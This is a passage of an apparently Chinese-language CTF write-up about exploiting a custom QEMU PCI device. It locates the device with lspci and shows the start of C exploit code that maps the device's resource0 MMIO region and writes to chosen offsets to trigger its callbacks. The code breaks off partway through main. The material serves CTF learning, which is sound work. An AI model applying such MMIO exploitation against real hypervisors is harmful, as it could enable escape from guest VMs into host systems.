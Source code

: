 首先既然是 `MMIO`，都叫内存映射了，自然就是要把它打开然后 mmap 过来。

我们读取它的 resource0 文件，因为刚才提到这是它的 MMIO 内存。之后，把它通过 mmap 映射到我们的虚拟地址 `mmio_mem` 上，之后我们对这个 `mmio_mem + offset` 的操作，自然也就会触发刚才的两个 `ops` 回调，并且地址就是我们的 `offset`

好的，那么这个 open 的地址怎么找呢？

```bash
/ # lspci
lspci
00:01.0 Class 0601: 8086:7000
00:04.0 Class 00ff: 0420:1337
00:00.0 Class 0600: 8086:1237
00:01.3 Class 0680: 8086:7113
00:03.0 Class 0200: 8086:100e
00:01.1 Class 0101: 8086:7010
00:02.0 Class 0300: 1234:1111
```

然后和一开始的 `init` 函数对比，可以发现是 `00:04.0` 这个。

那我们就对着改就完事了。



之后我们编译然后上传。

### exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>
unsigned char* mmio_mem;
void die(const char* msg)
{
  perror(msg);
  exit(-1);
}
uint64_t mmio_read(uint64_t addr)
{
  return *((uint64_t *)(mmio_mem + addr));
}
void mmio_write(uint64_t addr, uint64_t value)
{
  *((uint64_t *)(mmio_mem + addr)) = value;
}
int main()
{
  int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR
| O_SYNC);
  if (mmio_fd == -1)
    die("mmio_fd open failed");
  mmio_mem = mmap(0, 0x1000000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd,
0);
  if (mmio_mem == MAP_FAILED)
    die("mmap mmio_mem failed");
  mmio_read(0x1f0000);
  mmio_write(0x100000, 1);
  mmio_write(0x2f0000, 1);
 
```